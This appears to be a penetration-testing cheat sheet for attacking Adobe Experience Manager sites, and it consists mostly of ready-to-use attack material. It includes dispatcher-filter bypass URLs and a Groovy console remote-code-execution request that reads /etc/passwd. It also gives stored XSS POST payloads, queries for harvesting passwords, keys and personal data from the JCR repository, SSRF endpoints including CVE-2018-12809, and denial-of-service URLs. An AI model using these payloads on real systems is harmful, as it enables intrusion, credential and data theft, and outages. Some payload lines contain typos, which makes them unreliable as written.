 ##### video
https://www.youtube.com/watch?v=EQNBQCQMouk
##### method
- collect sub domain 
- use nuclei/nuclei-templates/technologies/tech-detect.yaml to identifiy aem 
- Python3 ./aem_hacker.py –u https://example — host localhost
- use https://github.com/clarkvoss/AEM-List/blob/main/paths to fuzz on path

##### aem tools
- https://github.com/0ang3el/aem-hacker
- https://github.com/0ang3el/aem-rce-bundle
```
python3 aem_hacker.py    -u     --host yourvpshostname         =>comman usage
python3 aem_discovery.py --file urls.txt --workers 150         =>discover url
python3 aem_enum.py      --url                                 => automate usernames and secrets grabbing
python3 aem_ssrf2rce.py  --url  --fakaem yourvbs
python3 aem_server.py 

```

##### aem dispatcher bypasses
[ ] bypassing cve 2016-0957
```
https://aemsite/bin/querybuilder.json              => blocked
https://aemsite/bin/querybuilder.json/a.css        => allow
https://aemsite/bin/querybuilder.json/a.html       => allow
https://aemsite/bin/querybuilder.json/a.ico        => allow
https://aemsite/bin/querybuilder.json/a.png        => allow
https://aemsite/bin/querybuilder.json;%0aa.css     => allow
https://aemsite/bin/querybuilder.json/a.1.json     => allow

```

[ ] bypassing for interesting servlets
```
https://aemsite/bin/querybuilder.json              => blocked
https://aemsite/bin/querybuilder.json/a.css        => block
https://aemsite/bin/querybuilder.json;%0aa.css     => block
https://aemsite/bin/querybuilder.json.servlet.css  => allow
https://aemsite/bin/querybuilder.json.servlet.html => allow
https://aemsite/bin/querybuilder.json.servlet.ico  => allow
https://aemsite/bin/querybuilder.json.servlet.png  => allow
///etc.json                 instead of  /etc.json
///bin///quesrybuilder.json instead of  /bin/quesrybuilder.json
```
[ ] using ssrf
```
ssrf should allow to send GET request and see response
- Opensocial proxy
- ssrf in reportingservicesproxyservlet(cve-2018-12809)
```

[ ] rce via exposed Groovy console
```
POST /bin/groovyconsole/post.servlet HTTP/1.1
HOST:






script=sef+proc+%3d+"cat+/etc/passwd".execute()%0d%0aprintln+proc.txt

```

[ ] xss
```
POST //////content/usergenerated/etc/commerce/smartlists/vv.json






aa=alert('xss+on+'%2b+document.domain+%2b+'\nby+%400ang3el+\ud83d\ude00')%3b
```
[ ] xss
```
POST /content/usergenerated/etc/commerce/smartlists/xss






aaa.html=alert('xss+on+'%2b+document.domain+%2b+'\nby+%400ang3el+\ud83d\ude00')%3b
```
[ ] xss
```
POST /content/usergenerated/etc/commerce/smartlists/xssed






jcr:data=alert('xss+on+'%2b+document.domain+%2b+'\nby+%400ang3el+\ud83d\ude00')%3b&jcr:mimeType=text/html
```

[ ] secret from jcr
```
everything is stored in jcr repository :
- secrets (password  ,encryption key , tokens)
- cinfiguration
- pII
- usernames

** what to use **
- DefaultGETServlet
- QueryBUilderJsonServlet
- QueryBuilderFeedServlet
- GQLSearch Servlet
- other

** DefaultGETServlet **
- Allows to get jsr node with its props
- selectors
  - tidy
  - infinity
  - numeric value:-1,0,1...99999
- formats
  - json
  - xml
  - res  
  
- https://aem.site/tidy.3.json
  /    => jcr:root
  tidy => selector tidy
  3    => selector depth
  json => output format

- how to grap
 - get node names, start from jcr:root :
    - /.1.json
    - /.ext.json
    - /.childrenlist.json
 - or guess node names :   
    - comman names /content, /home, /var, /etc
 - Dump props for each child node of jcr:root :
    - /etc.json or /etc.s.json or /etc.-1.json 

- what to grap      
 - interesting nodes
    - /etc => may contain secrets (pass,enc,keys)
    - /apps/system/config => passwords
    - /apps/<smth>/config => passwords
    - /var => may contain private pii
    - /home => password hashed ,pii
 - interesting props-contain aem usernames
    - jcr:createdBy
    - jcr:lastModifiedBy
    - cq:LastModifiedBy 
```
[ ] QueryBuild Servlets
```
- path 
   - /bin/querybuilder.json
   - /bin/querybuilder.feed.servlet

- examples of useful searches
 - type=nt:file&nodename=*.zip
 - path=/home&p.hits-full&p.limit=-1
 - hasPermission=jcr:write&path=/content
 - hasPermission=jcr:addChild Nodes&path=/content
 - hasPermission=jcr:modify Properties&path=/content
 - p.hits-selective&p.properties=jcr%3alastModifiedBy&property=jcr%3alast ModifiedBy&property.operation-unequals&property.value=admin&type=nt%3abase&p.limit=1000
 - path=/etc&path.flat=true&p.nodedepth=0
 - path=/etc/replication/agents.author&p.hits-full&p.nodedepth=-1
```

[ ] exploit SSRF
```
ssrf via Opensocial proxy
 - /libs/opensocial/proxy?container=default&url=http://target
 - /libs/shindig/proxy?container=default&url=http://target

```

[ ] ReportingServicesProxyServlet
```
SSRF via ReportingServicesProxyServlet (CVE-2018-12809)
- /libs/ca/contentinsight/content/proxy.reportingservices.json?url=http://target%23/apil.omniture.com/a&q=a
- /libs/cq/contentinsight/proxy/reportingservices.json.GET.servlet?url=http://target%23/apil.omniture.com/a&q=a
- /libs/mcm/salesforce/customer.json?checkType=authorize&authorization_url=http://target&customer_key=zzzz&customer_secret-zzzz&redirect_uri=xxxx&code=e

SSRF via SiteCatalystServlet
- /libs/cq/analytics/components/sitecatalystpage/segments.json.servlet 
- /libs/cq/analytics/templates/sitecatalyst/jcr:content.segments.json
```

[ ] DOS
```
- /.ext.infinity.json
- /.ext.infinity.json?tidy=true
- /bin/querybuilder.json?type=nt:base&p.limit=-1
- /bin/wcm/search/gql.servlet.json?query=type:base%20limit:..-1&pathPrefix=
- /content.assetsearch.json?query=*&start=0&limit=10&random=123
- /..assetsearch.json?query=*&start=0&limit=10&random=123
- /system/bgservlets/test.json?cycles-999999&interval=0&flushEvery=111111111
```

- https://experienceleague.adobe.com/en/docs/experience-manager-learn/cloud-service/introduction/architecture
- https://youtu.be/EQNBQCQMouk
- https://www.youtube.com/watch?v=O54ozMc8fJw
- https://github.com/0ang3el/aem-hacker
- https://github.com/ZephrFish/Wordlists/blob/master/AEM-Enum.txt
- https://github.com/vulnerabilitylabs/aem-hacker/tree/master
- https://github.com/ZephrFish/Wordlists/blob/master/AEM-Enum.txt
- https://github.com/vulnerabilitylabs/aem-hacker

### RCE Via Exposed Groovy Console 

### RCE Via Exposed ACS AEM Tools

---

![image](https://github.com/user-attachments/assets/cd4eb7b7-9d08-4a96-9df8-3b3ff193014f)
![image](https://github.com/user-attachments/assets/31fe59a5-1212-4993-b58c-d80658fb8381)
![image](https://github.com/user-attachments/assets/afaf6f57-1c83-4beb-8f1b-b0e1c285d86f)
![image](https://github.com/user-attachments/assets/9c22cf02-64d4-4dce-b477-552f89b77cd6)


-- https://www.slideshare.net/slideshow/a-hackers-perspective-on-aem-applications-security/238679695
-- https://www.slideshare.net/slideshow/securing-aem-webapps-by-hacking-them/169651468


